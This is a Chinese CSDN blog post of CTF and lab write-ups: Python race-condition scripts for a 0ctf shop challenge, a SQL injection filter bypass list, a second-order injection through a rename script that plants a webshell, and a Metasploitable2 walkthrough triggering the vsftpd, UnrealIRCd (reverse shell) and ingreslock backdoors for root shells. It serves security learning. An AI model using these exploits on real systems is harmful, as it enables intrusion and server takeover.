





<!--yml
category: 未分类
date: 2022-04-26 14:48:34
-->

# 某校赛的题解...再膜鸡哥_Assassin__is__me的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_35078631/article/details/78149854](https://blog.csdn.net/qq_35078631/article/details/78149854)

真是菜的一逼…WEB生疏了小小总结一下。

<center></center>

两道0ctf的原题

## **0ctf Temmo’s Tiny Shop part1**

打开了首先发现了再搜索的order位置存在过滤Waf，感觉是一个注入，但是只是一个猜想，但是感觉过滤的东西实在是太多了…以为思路错了…转而一想是不是买和卖的条件竞争呢？

但是一开始一直卡在同一用户为啥不行？？？？然后换了个套路用不同的套接字就行了…用两个cookie，gg，我用的两个脚本，算是一个经典的条件竞争了。反正注意每个线程都需要登录

```
#part1
#_*_coding:utf-8_*_
import requests
import time
import threading

#拼接url
host = "http://10.114.2.201:10002"
url = '/app.php?action=login'
url1 = host + "/app.php?action=buy&id=6"
url2 = host + "/app.php?action=sale&id=6"
headers1={'PHPSESSID':'vqntjrojppnerbc1l8jc5pl6p5'}
#headers2={'PHPSESSID':'vqntjrojppnerbc1l8jc5pl6p6'}

s1=requests.session()
#s2=requests.session()
login_para={'action':'login'}
parm_data={'username':'doge','pwd':'doge'}

s1.post(url=host+url,data=parm_data,headers=headers1)
#s2.post(url=host+url,data=parm_data,headers=headers2)
while True:
    a = s1.get(url=url1,headers=headers1).content
    print(a) 
```

```
part2
#_*_coding:utf-8_*_
import requests
import time
import threading

#拼接url
host = "http://10.114.2.201:10002"
url = '/app.php?action=login'
url1 = host + "/app.php?action=buy&id=6"
url2 = host + "/app.php?action=sale&id=6"
#headers1={'PHPSESSID':'vqntjrojppnerbc1l8jc5pl6p5'}
headers2={'PHPSESSID':'vqntjrojppnerbc1l8jc5pl6p6'}

#s1=requests.session()
s2=requests.session()
login_para={'action':'login'}
parm_data={'username':'doge','pwd':'doge'}

#s1.post(url=host+url,data=parm_data,headers=headers1)
s2.post(url=host+url,data=parm_data,headers=headers2)
while True:
    a = s2.get(url=url2,headers=headers2).content
    print(a)
```

## **0ctf Temmo’s Tiny Shop part2**

然后hint提示了下一步怎么办，果真存在注入来着，这里学习到了新的知识…过滤了非常的多的东西…然后直接上了代码就明白了嗯，其实主要是鸡哥好用的点

```
可用：
(xxx) , select as procedure limit asc desc distinct having like (sqlattempt2) & mid substr ascii exists from if

不可用
' or and 空格 union sleep || %0a binary /**/ <> = extractvalue floor updatexml
```

所以说fuzz很重要。

然后利用到了一个很有趣的东西。比如说
当我们=和<>被过滤了怎么办？？？用like

```
 1 row in set (0.00 sec)

1 row in set (0.00 sec)
```

第二呢，发现了order by的排序方法

```
 | 2    | guest | flag{flag_is_not_here} |
| 1    | admin | flag{flag_is_here}     |
+------+-------+------------------------+
2 rows in set (0.00 sec) 

| 1    | admin | flag{flag_is_here}     |

2 rows in set (0.00 sec)
```

然后还有if黑魔法

```
 | 1    | admin | flag{flag_is_here}     |
| 2    | guest | flag{flag_is_not_here} |
| 3    | fuzz  | flag{admin_is_not_me}  |
+------+-------+------------------------+
3 rows in set (0.00 sec)

| 3    | fuzz  | flag{admin_is_not_me}  |
| 1    | admin | flag{flag_is_here}     |
| 2    | guest | flag{flag_is_not_here} |
+------+-------+------------------------+
3 rows in set (0.00 sec)
```

哈哈哈学习一波！

## **披着文件上传皮的二次注入**

这题比赛时我直接搭了鸡哥的顺风车（谁让他不删除payload哈哈），题目本身还是非常复杂的。现在好好学习一下非常好的一道题目，一个XDctf的题目
二次注入到利用！！！

```
 <?php
if(!in_array($path_parts["extension"], ["gif", "jpg", "png", "zip", "txt"])) {
    exit("error extension");
}
```

导致我们无法上传恶意文件。
再次是rename.php，这里明显是getshell的关键。

```
<?php
$result = $db->query("select * from `file` where `filename`='{$req['oldname']}'");
if ($result) {
    $result = $result->fetch();
}
if(!$result) {
    exit("old file doesn't exists!");
} else {
    $req['newname'] = basename($req['newname']);
    $re = $db->exec("update `file` set
                `filename`='{$req['newname']}',
                `oldname`='{$result['filename']}'
                where `fid`={$result['fid']}");
    if(!$re) {
        print_r($db->errorInfo());
        exit;
    }
    $oldname = UPLOAD_DIR . $result["filename"] . $result["extension"];
    $newname = UPLOAD_DIR . $req["newname"] . $result["extension"];
    if(file_exists($oldname)) {
        rename($oldname, $newname);
    }
```

最重要的就是后面这5行。
Oldname和newname，有几个特点：

**1.后缀相同，都是$result[‘extension’]**
**2.oldname的文件名来自数据库，newname的文件名来自用户输入**

首先后缀相同这个特点，就导致getshell似乎难以完成，如果要getshell那么一定要将“非.php”后缀的文件重命名成“.php”的文件。后缀相同怎么重命名？
<font size="4">除非后缀为空！</font>
所以我们的update型注入就开始派上用场了。通过update型注入，我们可以将数据库中extension字段的值改为空，同时也可以控制filename的值，那么等于说我能控制rename函数的两个参数的值，这样getshell就近在咫尺了。

但还有个坑，这里改名的时候检查了文件是否存在：if(file_exists($oldname))我虽然通过注入修改了filename的值，但我upload目录下上传的文件名是没有改的。
因为我利用注入将extension改为空了，那么实际上数据库中的filename总比文件系统中真是的文件名少一个后缀。
那么这里的file_exists就验证不过。怎么办？
**简单啊，再次上传一个新文件，这个文件名就等于数据库里的filename的值就好了。**

所以最后整个getshell的流程，实际上是一个二次注入 + 二次操作getshell。

<font size="5">**运作的流程**</font>

### **1.选择文件上传**

<center></center>

### **2.rename造成注入**

<center></center>

注意，这里更新的是mysq中的语句而已！但是文件系统中存在还是’,extension=”x.jpg.jpg来着！那么x.jpg是不存在的！我们这一步把那个一坨名字改成了x.jpg.jpg（因为result的查询来源于更新之前），但是这时候我们的数据库已经改成前面是x.jpg后缀为空了，只不过我们现在没有这个文件。

### **3.上传真正包含webshell的文件x.jpg**

<center></center>

### **4.重命名进行getshell(二次利用)**

<center></center>

然后发现php文件就存在了！！！233333膜鸡哥

## **metespolit2渗透**

这个还是挺简单的，用**服务：无意识的后门**

```
Metasploitable2 在21端口上运行着vsftpd服务，一个使用广泛的FTP服务。这个特别的版本包含一个后门允许一个未知的入侵者进入核心代码。这个后门很快就被确认并且移除。但是移除之前已经被少数人下载下来。如果在发送的用户名后面加上”：）“（笑脸符号），这个版本的后门会在6200端口上打开一个监听的shell。我们可以通过telnet确认或者通过metasploit上面的攻击模块自动攻击。

root@ubuntu:~

Trying 192.168.99.131…

Connected to 192.168.99.131.

Escape character is &

220 (vsFTPd 2.3.4)

user backdoored:)

331 Please specify the password.

pass invalid

^]

telnet> quit

Connection closed.

root@ubuntu:~

Trying 192.168.99.131…

Connected to 192.168.99.131.

Escape character is &

id;

uid=0(root) gid=0(root)

在Metasploitable2 的6667端口上运行着UnreaIRCD IRC的守护进程。这个版本包含一个后门-运行了几个月都没被注意到。通过在一个系统命令后面添加两个字母”AB“发送给被攻击服务器任意一个监听该端口来触发。metasploit上已经已经有攻击模块来获得一个交互的shell，请看下面列子。

msfconsole

msf > use exploit/unix/irc/unreal_ircd_3281_backdoor

msf  exploit(unreal_ircd_3281_backdoor) > set RHOST 192.168.99.131

msf  exploit(unreal_ircd_3281_backdoor) > exploit 

[*] Started reverse double handler

[*] Connected to 192.168.99.131:6667…

    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname..

    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn&

[*] Sending backdoor command…

[*] Accepted the first client connection…

[*] Accepted the second client connection…

[*] Command: echo 8bMUYsfmGvOLHBxe;

[*] Writing to socket A

[*] Writing to socket B

[*] Reading from sockets…

[*] Reading from socket B

[*] B: "8bMUYsfmGvOLHBxe\r\n"

[*] Matching…

[*] A is input…

[*] Command shell session 1 opened (192.168.99.128:4444 -> 192.168.99.131:60257) at 2012-05-31 21:53:59 -0700

id

uid=0(root) gid=0(root)

在少数服务器上存在一个古老的令人惊讶的“ingreslock”后门，监听1524端口。在过去的十年里，它经常被用于入侵一个暴露的服务器。它的利用是如此简单
root@ubuntu:~

Trying 192.168.99.131…

Connected to 192.168.99.131.

Escape character is &

root@metasploitable:/

uid=0(root) gid=0(root) groups=0(root)
```

然后就没了,永恒之蓝攻击server 2008 stdio…版本太老了…没成功
总之收货很大了，膜鸡哥，鸡哥强无敌